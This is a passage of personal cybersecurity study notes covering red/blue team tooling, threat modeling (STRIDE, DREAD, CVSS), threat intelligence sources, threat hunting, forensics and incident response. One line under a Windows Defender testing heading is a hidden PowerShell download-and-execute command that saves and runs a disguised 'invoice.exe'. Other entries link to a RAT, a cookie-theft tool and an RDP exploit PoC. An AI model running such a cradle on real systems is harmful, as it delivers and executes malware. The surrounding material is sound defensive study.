Normally you need the user’s password to do it, @mangopdf found a way to do it without the password. You just need to be able to execute code on their computer. It works by using Chrome’s Remote Debugging Protocol

This tool is based on Cookie Crimes module: https://github.com/defaultnamehere/cookie_crimes 

Link: https://www.blackhatethicalhacking.com/tools/sharp-cookie-monster/

===== Smbmap

===== SSLStrip

===== Sublist3r

Sublist3r is a python tool designed to enumerate subdomains of websites using OSINT. It helps penetration testers and bug hunters collect and gather subdomains for the domain they are targeting. Sublist3r enumerates subdomains using many search engines such as Google, Yahoo, Bing, Baidu, and Ask. Sublist3r also enumerates subdomains using Netcraft, Virustotal, ThreatCrowd, DNSdumpster, and ReverseDNS.

*Installation*
. Login as root
. Open a terminal session
. Change directory to /opt

	cd /opt

. Download the latest version from git

	git clone https://github.com/aboul3la/Sublist3r.git

. Change the directory to Sublist3r:

	cd Sublist3r

. Install the required dependencies:

	pip install -r requirements.txt

. Execute the sublist3r

	python sublist3r -h
	or
	./sublist3r.py -h 

[horizontal]
Source:: https://github.com/aboul3la/Sublist3r
Author:: Ahmed Aboul-Ela
License:: GPL-2+

===== TheHarvester

===== Tokenvator
A Tool to Elevate Privilege using Windows Tokens

Link: https://blog.netspi.com/tokenvator-a-tool-to-elevate-privilege-using-windows-tokens/

===== TruffleHog

Link: https://github.com/dxa4481/truffleHog

===== Wfuzz
Wfuzz is a tool designed for bruteforcing Web Applications, it can be used for finding resources not linked (directories, servlets, scripts, etc), bruteforce GET and POST parameters for checking different kind of injections (SQL, XSS, LDAP,etc), bruteforce Forms parameters (User/Password), Fuzzing,etc.

[horizontal]
Source:: https://github.com/xmendez/wfuzz/
Author:: Christian Martorella, Carlos del ojo, Xavier Mendez aka Javi
License:: GPLv2

===== Yara


==== Red team Assessment
A Red Team Assessment is similar to a penetration test in many ways but is more targeted. The goal of the Red Team Assessment is NOT to find as many vulnerabilities as possible. The goal is to test the organization's detection and response capabilities. The red team will try to get in and access sensitive information in any way possible, as quietly as possible. The Red Team Assessment emulates a malicious actor targeting attacks and looking to avoid detection, similar to an Advanced Persistent Threat (APT). (Ugh! I said it…) Red Team Assessments are also normally longer in duration than Penetration Tests. A Penetration Test often takes place over 1-2 weeks, whereas a Red Team Assessment could be over 3-4 weeks or longer, and often consists of multiple people.

A Red Team Assessment does not look for multiple vulnerabilities but for those vulnerabilities that will achieve their goals. The goals are often the same as the Penetration Test. Methods used during a Red Team Assessment include Social Engineering (Physical and Electronic), Wireless, External, and more. A Red Team Assessment is NOT for everyone though and should be performed by organizations with mature security programs. These are organizations that often have penetration tests done, have patched most vulnerabilities, and have generally positive penetration test results.

The Red Team Assessment might consist of the following:

A member of the Red Team poses as a Fed-Ex delivery driver and accesses the building. Once inside, the Team member plants a device on the network for easy remote access. This device tunnels out using a common port allowed outbound, such as port 80, 443, or 53 (HTTP, HTTPS, or DNS), and establishes a command and control (C2) channel to the Red Team's servers. Another Team member picks up the C2 channel and pivots around the network, possibly using insecure printers or other devices that will take the sights off the device placed. The Team members then pivot around the network until they reach their goal, taking their time to avoid detection.

This is just one of innumerable methods a Red Team may operate but is a good example of some tests we have performed.

* Offensive Security
* Ethical Hacking
* Exploiting Vulnerabilities
* Penetration Testing
* Black Box Testing
* Social Engineering
* Web App Scanning

===== Red Team Resources

. https://www.hackingarticles.in/red-teaming/ 

====== Remote Access Trojan (RAT)
Link: https://github.com/b4rtik/RedPeanut


==== Blue Team Assessment
Blue team assessment is usually a test of the teams' ability to identify and defend the network while under attack by the Red Teams/Penetration Tester/Hacker.

* Defensive Security
* Infrastructure Protection
* Damage Control
* Incident Response
* Operational Security
* Threat Hunters
* Digital Forensics

===== Powershell to test Windows Defender

	powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'

==== Purple Team
* Collaborative Security
* Reand & Blue Teams Function Together
* Cooperate to improve/test detection
* Vulnerability Scanning & Pen Testing

==== Methods
social engineering, phishing, vishing or simply posing as a company employee.

=== Threat Modeling
Threat modeling is a process by which potential threats, such as structural vulnerabilities can be identified, enumerated, and prioritized – all from a hypothetical attacker’s point of view. The purpose of threat modeling is to provide defenders with a systematic analysis of the probable attacker’s profile, the most likely attack vectors, and the assets most desired by an attacker. Threat modeling answers the questions “Where are the high-value assets?” “Where am I most vulnerable to attack?” “What are the most relevant threats?” “Is there an attack vector that might go unnoticed?

It is a structured approach that enables you to identify, quantify, and address the security risks associated with an application. Threat modeling is not an approach to reviewing code, but it does complement the security code review process.

==== CVSS
CVSS stands for Common Vulnerability Scoring System, which provides a score to indicate the severity of the CVE vulnerabilities.

Assignment of a CVSS score is based on:

* The primary impact on the confidentiality, integrity, and availability of the protected system/resources
* The derivative impact on loss of life and/or properties
* The percentage of the impacted area within the total environment
* How easy it is to exploit the vulnerability
* How easy it is to remediate the vulnerability
* How confident the testing team is about the existence of the vulnerability

==== NVD
National Vulnerability Database (NVD) is the U.S. government repository of standards based vulnerability management data. NVD also provides severity rankings of "Low," "Medium," and "High" in addition to the numeric CVSS scores. These qualitative rankings are simply mapped from the numeric CVSS scores:

* Vulnerabilities are labeled "Low" severity if they have a CVSS base score of 0.0-3.9.
* Vulnerabilities will be labeled "Medium" severity if they have a base CVSS score of 4.0-6.9.
* Vulnerabilities will be labeled "High" severity if they have a CVSS base score of 7.0-10.0.

==== STRIDE
STRIDE is a model of threats developed by Praerit Garg and Loren Kohnfelder at Microsoft[1] for identifying computer security threats.[2] It provides a mnemonic for security threats in six categories.[3]

The threats are:

* **S**poofing of user identity
* **T**ampering
* **R**epudiation
* **I**nformation disclosure (privacy breach or data leak)
* **D**enial of service (D.o.S)
* **E**levation of privilege.

==== DREAD
DREAD methodology is used to rate, compare and prioritize the severity of risk presented by each threat that is classified using STRIDE.

* **D**amage
* **R**eproducibility
* **E**xploitability
* **A**ffected Users
* **D**iscoverability

DREAD Risk = (Damage + Reproduciblity + Exploitability + Affected Users + Discoverability) / 5. Calculation always produces a number between 0 and 10. Higher the number means more serious the risk is.

Following is a customized mathematical approach to implement DREAD methodology:-

*Damage Potential*
If a threat exploit occurs, how much damage will be caused?

* 0 = Nothing
* 5 = Information disclosure that could be used in combination with other vulnerabilities
* 8 = Individual/employer non sensitive user data is compromised.
* 9 = Administrative non sensitive data is compromised.
* 10 = Complete system or data destruction.
* 10 = Application unavailability.

*Reproducible*
How easy is it to reproduce the threat exploit?

* 0 = Very hard or impossible, even for administrators of the application.
* 5 = Complex steps are required for authorized user.
* 7.5 = Easy steps for Authenticated user
* 10 = Just a web browser and the address bar is sufficient, without authentication.

*Exploit-ability*
What is needed to exploit this threat?

* 2.5 = Advanced programming and networking knowledge, with custom or advanced attack tools.
* 5 = Exploit exits in public, using available attack tools.
* 9 = A Web Application Proxy tool
* 10 = Just a web browser

*Affected Users*
How many users will be affected?

* 0 = None
* 2.5 individual/employer that is already compromised.
* 6 = some users of individual or employer privileges, but not all.
* 8 = Administrative users
* 10 = All users

*Discover-ability*
How easy is it to discover this threat?

* 0 = Very hard requires source code or administrative access.
* 5 = Can figure it out by monitoring and manipulating HTTP requests
* 8 = Details of faults like this are already in the public domain and can be easily discovered using a search engine.
* 10 = the information is visible in the web browser address bar or in a form.

DREAD methodology can be customized to cater the needs of your application, during consultancy engagements it should be approved from the client before starting the security assessment so that after you perform the analysis the results produced by DREAD couldn’t be challenged.

=== Threat Intelligence

==== MITRE ATT&CK
MITRE ATT&CK™ is a globally-accessible knowledge base of adversary tactics and techniques based on real-world observations. The ATT&CK knowledge base is used as a foundation for the development of specific threat models and methodologies in the private sector, in government, and in the cyber security product and service community.

With the creation of ATT&CK, MITRE is fulfilling its mission to solve problems for a safer world — by bringing communities together to develop more effective cybersecurity. ATT&CK is open and available to any person or organization for use at no charge.

MITRE ATT&CK website: https://attack.mitre.org/ 

==== Open Threat Exchange(OTX)

==== Palo Alto Unit42
Unit 42 is the global threat intelligence team at Palo Alto Networks®

.. Palo Alto Unit42 website: https://unit42.paloaltonetworks.com/ 
.. Playbook: https://pan-unit42.github.io/playbook_viewer/ 

https://www.packetstormsecurity.com
https://www.securityfocus.com
https://www.exploit-db.com

==== Cisco Talos
Cisco Talos Intelligence Group is one of the largest commercial threat intelligence teams in the world, comprised of world-class researchers, analysits and engineers.  These teams are supposed by unrivaled telemetry and sophisticated systems to create accurate, rapid and actionable threat intelligence for Cisco Customers, products and services.  Talos defends Cisco customers against knowns and emerging threats, discovers new vulnerabilities in common software, and interdicts threats in the wild beofre they can further harm the internet at large.  Talos maintains the official rules sets of Snort.org, ClamAV, and SpanCop, in addition to releasing many open-source research and analysis tools.

Talos was formed by combining SourceFire's Vulnerability Research Team, the Cisco Threat Research and Communications group, and the Cisco Security Applications Group.  The combined expertise is backed by a sophisticated infrastrucutre, and Cisco's unrivaled telemetry of data that spans across networks, endpoints, cloud environments, virtual systems, and daily web and email traffic.

Link: https://talosintelligence.com/ 

==== Sophos Labs


Link: https://www.sophos.com/en-us/labs.aspx 

==== STIX
STIX (Structured Threat Information eXpression) was originally conceived as a language to describe cyber threat intelligence. This was groundbreaking at the time because it was the first language to provide a definition of cyber threat intelligence. Although it’s a bit of a fuzzy term, cyber threat intelligence generally describes information about adversaries and their behaviors that can inform defensive actions. For example, knowing that a certain adversary targets financial institutions by using specially crafted spear-phishing emails, and then delivers Trojans that will reach out to a certain set of websites that are known to be malicious, can be very helpful in defending against the attack. STIX captures that type of intelligence in a machine-readable form so that it can be shared among organizations and tools.

The DHS Office of Cybersecurity and Communications funded MITRE, beginning in 2012, to act as the technical developer of STIX and serve as a community facilitator to jumpstart STIX. Once some level of maturity was reached, STIX would be transitioned to an international standards body. That goal was realized in 2015 when governance of STIX was transitioned to OASIS, an international standards consortium. This was a big step for STIX and a big success for DHS, MITRE, and the community because it meant that STIX was on its way to becoming an international standard. Although DHS and MITRE continue to serve in several leadership positions in the CTI TC, the majority of the leadership and the vast majority of participants in the TC are from industry. In fact, the OASIS CTI TC was founded with more participants than any other TC in OASIS history. It's that community that led the development of STIX 2.0.

==== TAXII
TAXII is a high-level protocol for moving cyber threat intelligence (primarily STIX) data around between systems and tools. We expect that, within the coming months, TAXII will be achieving this same milestone and opening its own public review period.

If you're interested in learning more about STIX 2.0 or TAXII 2.0, the documentation page is the best place to start.

==== Tools

===== MISP
MISP - Open Source Threat Intelligence Platform & Open Standards For Threat Information Sharing

Link: https://www.misp-project.org/

=== Threat Hunting
Threat hunting is a relatively new focal area in information security.  Actively looking for C2C in your environment.  Firewalls, IDS/IPS, SIEM are not able to detect C2C.

*Beacons*
Looking for persistent outbound signal
* Is there consistency in timing
* 

==== Sysmon
Microsoft Sysinternals Sysmon configuration repository, set up modular for easier maintenance and generation of specific configs.
link: https://github.com/olafhartong/sysmon-modular

==== Detecting C2 over DNS
* Capture all DNS traffic
** Capture tool of your choice
** Longer the capture time, the better
* Filter so it is DNS traffic only
* Extract to text so we can sort and count
* Review total FQDNs per domain
* Check domain with a lot of FQDNs

==== RITA

Link: https://www.activecountermeasures.com/free-tools/rita/ 

==== Tshark
	tshark -q -z conv,ip -r dnscat2.pcapng | tr -s ' ' | cut -d " " -f 1,2,3,10 | sort -k 4 -rn | head 
	
	tshark -r thunt-lab.pcapng -T fields -e dns.qry.name | sort |uniq | rev | cut -d '.' -f 1-2 |rev | uniq -c | sort -rn | head -10

==== Zeek
Network sniffing tool, formerly called Bro.


==== Reference Sites
. https://pentestmag.com/using-the-mitre-attck-navigator-for-intelligence-gathering-pre-purple-teaming/
. https://www.activecountermeasures.com/raspberry_pi_sensor/
. https://knowledgebase.paloaltonetworks.com/KCSArticleDetail?id=kA10g000000ClarCAC
. https://gist.github.com/MSAdministrator/7a61025263e279a740835da4b205e6d0
. https://www.twistlock.com/2019/01/02/whitelisting-blacklisting-security-strategy/
. https://en.wikipedia.org/wiki/Domain_fronting
. https://www.bleepingcomputer.com/news/security/teamviewer-confirms-undisclosed-breach-from-2016/
. https://www.linkedin.com/posts/kirtaroza_cyberthreatintelligence-note-paython-activity-6600672896148959232-J-r8/
. https://github.com/activecm/passer
. http://www.stearns.org/doc/pcap-apps.html
. HELKS
. SELKS
. Packet Squirrel https://shop.hak5.org/products/packet-squirrel
. https://register.gotowebinar.com/register/2540509980495221261?source=ACMtwitter
. netgear gs305e

=== Threat Risk Assessments
*Threat*: Any potential actor that has the capability, motivation, or intent to exploit a vulnerability.
Vulnerability: Is a weakness that allows a threat to compromise the security of a system.

*Risk*: Likelihood of a threat source to exploit a vulnerability to target a critical asset and impact a business negatively.
Controls, safeguards, countermeasures are implemented to reduce the risk.

=== Bug Bounty / Crowsourced Security Platforms
. Hackerone
. Bugcrowd
. Synack
. Detectify
. cobalt
. Open Bug Bounty
. Zerocopter
. YesWeHack
. HackenProof
. Vulnerability Lab
. FireBounty
. BugBounty.jp
. AntiHACK
. Intigriti
. SafeHats
. RedStorm
. Cyber Army ID
. Yogosha

<<<
== Digital Forensics

=== Windows Persistence
Focus on System & Security logs.  Standard artifact utilized in any investigation.

Following log types are important:

. Task logs 
. Events concerning services
.. 7045 - Code for new service installed, should be a low frequency event.
.. 7009 - Service failed to start, what should be running and is not.
.. 7035/7036 - Services being tampered with for malicious purposes. Look for services that have no descrption, and have image path that is in a non standard directory.  DLL is in the same directory as exe, which is a side loading technique. Check for start type, if it is changed to 2, which is auto start. Type 10 means that the service is running under user account authority.
.. 601 - Attempt to install a service
.. 7034 - Service has crashed unexpectedly
. Events concerning schedules tasks
.. 4698 - When a scheduled task is created on a system that has been compromised
.. 4702 - When a scheduled task has been altered
.. 4701/4699 
.. 4700 - A scheduled task has been enabled.

Scheduled tasks with abnormal names or directories.  Attackers usually create a verly long task name.  Check the command syntax.

=== Reverse Engineering

Link: https://github.com/0xZ0F/Z0FCourse_ReverseEngineering
Link: https://github.com/wtsxDev/reverse-engineering


=== Cortex
Cortex tries to solve a common problem frequently encountered by SOCs, CSIRTs and security researchers in the course of threat intelligence, digital forensics and incident response: how to analyze observables they have collected, at scale, by querying a single tool instead of several?

Cortex, an open source and free software, has been created by TheHive Project for this very purpose. Observables, such as IP and email addresses, URLs, domain names, files or hashes, can be analyzed one by one or in bulk mode using a Web interface. Analysts can also automate these operations thanks to the Cortex REST API.
Link: https://github.com/TheHive-Project/Cortex/ 

=== Persistence Investigations & Layered Drivers
* Layered drivers help find network sniffers, keyboard key loggers
* Triage methodology for persistence, focusing on layered drivers
* Common attacker practices:
** Redline - detects drivers and displaying information about them
** NTFS Driver - System Restore Driver should be check what is layered on top of it. It is called SR
KBD Class driver, associated with Key logging driver.

New Audit Viewer for Memoryze: https://www.fireeye.com/blog/threat-research/2008/11/new-audit-viewer-for-memoryze.html
Forensics #2 / Windows Forensics using Redline: https://attackersmindset.com/2018/05/22/forensics-2-windows-forensics-using-redline/
Redline user’s Guide: https://www.fireeye.com/content/dam/fireeye-www/services/freeware/ug-redline.pdf

=== SOF ELK

SOF-ELK® is a “big data analytics” platform focused on the typical needs of computer forensic investigators/analysts and information security operations personnel. The platform is a customized build of the open source Elastic stack, consisting of the Elasticsearch storage and search engine, Logstash ingest and enrichment system, Kibana dashboard frontend, and Elastic Beats log shipper (specifically filebeat). With a significant amount of customization and ongoing development, SOF-ELK® users can avoid the typically long and involved setup process the Elastic stack requires. Instead, they can simply download the pre-built and ready-to-use SOF-ELK® virtual appliance that consumes various source data types (numerous log types as well as NetFlow), parsing out the most critical data and visualizing it on several stock dashboards. Advanced users can build visualizations the suit their own investigative or operational requirements, optionally contributing those back to the primary code repository.

Link: https://github.com/philhagen/sof-ELK 
Training: https://youtu.be/Hk6An-LJ4jY   

=== Base64 Encoded Data
Base64 endoded data is not human readable, but it is determinsitic, similar to rot13 decoder.


Some Links
Finding encoded evidence: https://digital-forensics.sans.org/blog/2011/01/09/digital-forensics-finding-encoded-evidence
Finding and Decoding Malicious PowerShell Scripts: https://az4n6.blogspot.com/2017/10/finding-and-decoding-malicious.html
Different Types Of Encoding Schemes – A Primer: https://skorks.com/2009/08/different-types-of-encoding-schemes-a-primer/
decode.py: https://github.com/secnonsense/decode.py

=== Tools
==== Autollr
AutoLLR is a live Linux evidence collection script that gathers key artifacts important for Incident Response investigations. In addition to gathering artifacts AutoLLR does some low overhead post processing to produce refined results that analysts can look at immediately.

Github: https://github.com/Dead-Simple-Scripts/AutoLLR 

Dead Simple Scripts: http://github.com/Dead-Simple-Scripts 

==== Autopsy
Autopsy® is the premier end-to-end open source digital forensics platform. Built by Basis Technology with the core features you expect in commercial forensic tools, Autopsy is a fast, thorough, and efficient hard drive investigation solution that evolves with your needs.

https://www.autopsy.com/

==== Bluegate
Proof of Concept (Denial of Service + scanner) for CVE-2020-0609 and CVE-2020-0610.

These vulnerabilities allows an unauthenticated attacker to gain remote code execution with highest privileges via RD Gateway for RDP.

Please use for research and educational purpose only.
Link: https://github.com/ollypwn/BlueGate

==== Bulk-extractor
It is a program that extracts features such as email addresses, credit card numbers, URLs, and other types of information from digital evidence files. It is a useful forensic investigation tool for many tasks such as malware and intrusion investigations, identity investigations and cyber investigations, as well as analyzing imagery and pass-word cracking. The program provides several unusual capabilities including:

* It finds email addresses, URLs and credit card numbers that other tools miss because it can process compressed data (like ZIP, PDF and GZIP ﬁles) and incomplete or partially corrupted data. It can carve JPEGs, office documents and other kinds of files out of fragments of compressed data. It will detect and carve encrypted RAR files.
* It builds word lists based on all of the words found within the data, even those in compressed files that are in unallocated space. Those word lists can be useful for password cracking.
* It is multi-threaded; running bulk_extractor on a computer with twice the number of cores typically makes it complete a run in half the time.
* It creates histograms showing the most common email addresses, URLs, domains, search terms and other kinds of information on the drive.

Link: https://tools.kali.org/forensics/bulk-extractor

==== DensityScout
DensityScout is a tool that has been written for one purpose: finding (possibly unknown) malware on a potentially infected system. Therefore it takes advantage of the typical approach of malware authors to protect their "products" with obfuscation like run-time-packing and -encryption. The tool itself is based on the concept of our Bytehist tool, btw.

*So what does DensityScout do?*
DensityScout's main focus is to scan a desired file-system-path by calculating the density of each file to finally print out an accordingly descending list. Usually most Microsoft Windows executables are not packed or encrypted in any way which throws the hits of malicious executables to the top of the list where one can easily focus on.

*What's Density?*
Density can also be understood as "entropy". However, the algorithm behind density is not 100% equal to the one which entropy is based on. So we decided to choose a different name.

Link: https://www.cert.at/downloads/software/densityscout_en.html

==== Kape
KAPE is a multi-function program that primarily: 

. collects files
. processes collected files with one or more programs.

KAPE reads configuration files on the fly and based on their contents, collects and processes relevant files. This makes KAPE very extensible in that the program’s author does not need to be involved to add or expand functionality.

As we will see later in more detail, KAPE uses the concepts of targets and modules to do its work. KAPE comes with a range of default targets and modules for operations most commonly required in forensic exams. These can also serve as models  for creating new targets and modules.

At a high level, KAPE works by adding file masks to a queue. This queue is then used to find and copy files from a source location. For files that are locked by the operating system, a second run bypasses the lock. At the end of the process, KAPE will make a copy and preserve metadata about all available files from a source location into a given directory. The second (optional) stage of processing is to run one or more programs against the collected data. This too works by targeting either specific file names or directories. Various programs are run against the files, and the output from the programs is then saved in directories named after a category, such as EvidenceOfExecution, BrowserHistory or AccountUsage.

By grouping things by category, examiners of all skill levels have the means to discover relevant information regardless of an individual artifact's source. In other words, an examiner no longer need to know how to process prefetch, shimcache, amcache, userassist, etc., as they relate to evidence of execution artifacts. Ultimately, a wider range of artifacts can be leveraged for any given requirement.

Link: https://www.kroll.com/en/insights/publications/cyber/kroll-artifact-parser-extractor-kape

==== Loki
LOKI Free IOC Scanner: http://www.nextron-systems.com/loki/ 

Loki Github: http://github.com/Neo23x0/Loki

Automating APT Scanning with Loki Scanner and Splunk: http://www.redblue.team/2017/04/automating-apt-scanning-with-loki.html

==== Red Ripper
When you an image file, load them into red ripper.  Has plugins that you can run against a registry hive.

==== Rsync
Last ditch collection tool.  

==== SIFT Workstation
The SIFT Workstation is a group of free open-source incident response and forensic tools designed to perform detailed digital forensic examinations in a variety of settings. It can match any current incident response and forensic tool suite. SIFT demonstrates that advanced incident response capabilities and deep dive digital forensic techniques to intrusions can be accomplished using cutting-edge open-source tools that are freely available and frequently updated.

Link: https://digital-forensics.sans.org/community/downloads

==== Volatility Framework
Digital investigations had focused primarily on finding contraband within hard drive images. Volatility introduced people to the power of analyzing the runtime state of a system using the data found in volatile storage (RAM). It also provided a cross-platform, modular, and extensible platform to encourage further work into this exciting area of research. Another major goal of the project was to encourage the collaboration, innovation, and accessibility to knowledge that had been common within the offensive software communities.

​Since that time, memory analysis has become one of the most important topics to the future of digital investigations and Volatility has become the world’s most widely used memory forensics platform. The project is supported by one of the largest and most active communities in the forensics industry. Volatility also provides a unique platform that enables cutting edge research to be immediately transitioned into the hands of digital investigators. As a result, research built on top of Volatility has appeared at the top academic conferences and Volatility has been used on some of the most critical investigations of the past decade. It has become an indispensible digital investigation tool relied upon by law enforcement, military, academia, and commercial investigators throughout the world.

Volatility development is now supported by The Volatility Foundation, an independent 501(c) (3) non-profit organization. The foundation was established to promote the use of Volatility and memory analysis within the forensics community, to defend the project's intellectual property (trademarks, licenses, etc.) and longevity, and, finally, to help advance innovative memory analysis research. Along these lines, the foundation was also formed to help protect the rights of the developers who sacrifice their time and resources to make the world’s most advanced memory forensics platform free and open source.

. https://www.volatilityfoundation.org/[Volatility Foundation]
. https://www.andreafortuna.org/2017/07/03/volatility-my-own-cheatsheet-part-2-processes-and-dlls/[Volatility Cheatsheet] 

==== Wireshark


<<<
== Incident Response

=== Preparation
. Never use flow charts for incident response
. Know your tools, practise, practise, practise
. Have procedures on when and how to use your tools
. There are differences on how to respond to an incident based on based on environment, hence ensure you are familiar with the environment and know which tools to use.  Some to of environments are:
.. On Premise
.. Azure
.. GCP
.. AWS
.. Other cloud provider

=== During the Incident
. Secure the impacted environment to ensure no one but Incident Responders only
. Document every activity during the incident in a log to ensure you have a timeline
. Decide which logs do you need to conduct your analysis, for example:
.. Active Directory Logs if you are an AD Shop, 99% environments today are.
.. File Server Logs
.. Web Server Logs
.. Application Server Logs
.. Database Server Logs
.. Firewall Logs
.. Switch Logs
.. Router Logs
.. Access Point Logs

=== System Tools

==== DeepBlueCLI
https://github.com/sans-blue-team/DeepBlueCLI[DeepBlueCLI] is a PowerShell Module for Threat Hunting via Windows Event Logs.

===== References
. https://holisticinfosec.io/post/deepbluecli/[DeepBlueCLI: Powershell Threat Hunting]
. https://www.netscylla.com/blog/2020/02/01/Threat-hunting-with-Windows-Event-Logs.html[Threat Hunting with Windows Event Logs & Sysmon]

==== First Incident Response
https://github.com/certsocietegenerale/FIR[FIR] (Fast Incident Response) is an cybersecurity incident management platform designed with agility and speed in mind. It allows for easy creation, tracking, and reporting of cybersecurity incidents.

FIR is for anyone needing to track cybersecurity incidents (CSIRTs, CERTs, SOCs, etc.). It was tailored to suit our needs and our team's habits, but we put a great deal of effort into making it as generic as possible before releasing it so that other teams around the world may also use it and customize it as they see fit.

==== LogonTracer
https://github.com/JPCERTCC/LogonTracer[LogonTracer] is a tool to investigate malicious logon by visualizing and analyzing Windows Active Directory event logs. This tool associates a host name (or an IP address) and account name found in logon-related events and displays it as a graph. This way, it is possible to see in which account login attempt occurs and which host is used.
This tool can visualize the following event id related to Windows logon based on https://www.first.org/resources/papers/conf2016/FIRST-2016-105.pdf[this research].

* 4624: Successful logon
* 4625: Logon failure
* 4768: Kerberos Authentication (TGT Request)
* 4769: Kerberos Service Ticket (ST Request)
* 4776: NTLM Authentication
* 4672: Assign special privileges

==== The Hive Project
https://github.com/TheHive-Project[TheHive] is a scalable 4-in-1 open source and free Security Incident Response Platform designed to make life easier for SOCs, CSIRTs, CERTs and any information security practitioner dealing with security incidents that need to be investigated and acted upon swiftly. It is the perfect companion for MISP. You can synchronize it with one or multiple MISP instances to start investigations out of MISP events. You can also export an investigation's results as a MISP event to help your peers and partners detect and react to attacks you've dealt with. Additionally, when TheHive is used in conjunction with Cortex, security analysts and researchers can easily analyze hundred of observables at once using more than 100 analyzers, contain an incident or eradicate malware thanks to Cortex responders.

=== Network Tools

==== Security Onion
https://securityonion.net/[Security Onion] is a free and open source Linux distribution for intrusion detection, enterprise security monitoring, and log management. It includes Elasticsearch, Logstash, Kibana, Snort, Suricata, Zeek (formerly known as Bro), Wazuh, Sguil, Squert, CyberChef, NetworkMiner, and many other security tools. The easy-to-use Setup wizard allows you to build an army of distributed sensors for your enterprise in minutes!

==== Suricata
https://suricata-ids.org/[Suricata] is a free and open source, mature, fast and robust network threat detection engine.

The Suricata engine is capable of real time intrusion detection (IDS), inline intrusion prevention (IPS), network security monitoring (NSM) and offline pcap processing.

Suricata inspects the network traffic using a powerful and extensive rules and signature language, and has powerful Lua scripting support for detection of complex threats.

With standard input and output formats like YAML and JSON integrations with tools like existing SIEMs, Splunk, Logstash/Elasticsearch, Kibana, and other database become effortless.

Suricata’s fast paced community driven development focuses on security, usability and efficiency.

The Suricata project and code is owned and supported by the Open Information Security Foundation (OISF), a non-profit foundation committed to ensuring Suricata’s development and sustained success as an open source project.

==== Bro/Zeek
https://zeek.org/[Zeek] is an open source software platform that provides compact, high-fidelity transaction logs, file content, and fully customized output to analysts, from the smallest home office to the largest, fastest research and commercial networks.

Zeek helps organizations understand how their network is being used, supporting security, performance, audit, and capacity missions.

Thanks to its network optimized programming language, vibrant open source community, and global footprint, Zeek provides the data and insights needed to tackle today’s toughest network challenges, in the enterprise, cloud, and industrial computing environments.

==== RITA
https://www.blackhillsinfosec.com/projects/rita/[RITA] stands for Real Intelligence Threat Analytics.   It helps you to not look at individual TCP streams, but rather look at the communication as it relates to much larger timeframes.

RITA's specific goal in life is frequency analysis and beconing detection.  It also does black list analysis, long connection analysis. It uses median and average distribution of a mean.

==== Ntop
https://www.ntop.org/[ntop] started as an open source project in 1998 whose goal was to create a simple yet effective web-based traffic monitoring platform. Many things have changed since then, including the nature of the traffic being analyzed, operating systems running on PCs, and the type of users. ntop changed too and from a single-project centric effort, we evolved into a full fledged research company whose goal is still the original one. Namely innovate in network monitoring using commodity hardware and open-source operating systems. As we benefit from the open-source community, we feel obliged to return to the community what we develop, so that many others, and not just us, can benefit too.

The industry is full of hardware companies who bundle their products with open-source products, just to offer a sale argument for their products. Or software companies who depend on other (either hardware or software companies) for running their applications. ntop does not belong to any of these categories. We are not hardware-vendor dependent, and our software does not rely on third-party companies who might impose high license fee or decide to send us (and thus our users) out of business. We are developing both software that better exploit commodity hardware (so we’re not vendor locked) and that runs on the operating system kernel, and monitoring applications. We control the whole lifecycle, optimize every single bit, and provide you support for all our components, as we have developed them and nobody knows them better than us. This is quite rare on this market, and thus we have the ability to optimize the software for the hardware we use, and create better products. Very few other companies such as Ferrari, Ducati or Apple can do that (we’re small but we believe we belong to this club).

==== Coffee

=== Reference Material
. https://www.youtube.com/watch?v=DuIXbz30mqk[Think You're Compromised? What Do We Do Next?]

<<<
== Enterprise Architecture
Source: https://www.youtube.com/watch?v=NUD-LXUE4tM 

*Enterprise* is any organization that is large or small with a collaborative collection of sub-organizations with a shared set of objectives.

*Architecture* is a designed structure of something.  A description of the structure (components) and behaviors (Processes) of a system.  It is also an activity required to produce such a description.

*Enterprise Architecture* is documentation describing the structure and behaviour of an enterprise including its information systems.  Also a process for describing an enterprise(including its information systems), then planning and governing changes to improve the integrity and flexibility of the enterprise.

Frameworks provide guidelines on how to implement enterprise architecture.  Frameworks address following areas:
* Content (strcuture, metamodel)
* Process (activities)
* Organization (roles, people)

Some of the frameworks are:

* TOGAF (covers all three, content, process, and organization)
* Zachman (Purely covers content)
* SABSA
* DODAF
* MODAF

Large organizations are complex, hence they can be broken down into following typical domains

. Business (Why organization exisit, objectives, goals, strategic thinking, capabilities, processes, functions, organizatinal structure)
. Data
. Application(s)
. Technology

Following domains cut across the typical domains:

. Security
. Compliance


*Architecture Activities* typically when you are performing any sort of change, you have to document the current state and future state.  This represents the strategic vision of the organization, where they want to be in 3-5 years time.

Enterprise architecture is about overseeing these changes by defining various architecture principles and standards.  Architects then govern those changes to ensure that the standards and principles are being followed.

=== SABSA
SABSA is a framework that supports the business in reaching its goals.  It is the leading methodology for developing business operational risk-based architectures.  SABSA stands for Sherwood Applied Business Security Architecture.

It provides a framework for developing risk driven enterprise information security and information assurance architectures.

It also helps to deliver security infrastructure solutions that help critical business initiatives.

The SABSA methodology provides guidance for aligning architecture with business value, it also addresses a critical need for greater integration between security and enterprise architecture within organizations.

With SABASA organizations can achieve that important risk reward balance using a range of frameworks, models, methods, and process to manage risk and measure performance.

The SABSA model is the key to this and covers the whole lifecycle of operational capabilities.  The SABSA model has six layers:

. Contextual Architecture: The Business View (Business wisdom and business decision making)
. Conceptual Architecture: The Architect's vision (The 'big picture', business attributes profiel and risk objectives)
. Logical Architecture: The Designers Vision (Information, services, processes, applications)
. Physical Architecture: The builders/constructors view(Data mechanisms, infrastructure, platforms)
. Component Architecture: The Trademan's View (Products, Tools, Specific Standards, Technologies)
. Security Services Management Architecture: The Service Manager's view (Service management activities, processes and monitoring)

Each of the layers of the architecture model are supported by a vertical analysis based on six key questions

* What
* Why
* How
* Who
* Where
* When

The SABSA framework is flexible, scalable and applicable to any industry sector.  Instead of replacing other risk based standards, it can be combined with TOGAF, COBIT and ITIL to create an integrated compliance framework.

SABSA provides organization with "enterprise operational risk management architecture" that can be completely tailored to a specific business model. 

SABSA's governance model provide a control feedback loop

. Strategy & Planning
. Design
. Implement
. Management & Measure

<<<
== NIST Cyber Security Framework(CSF)

Key functions are

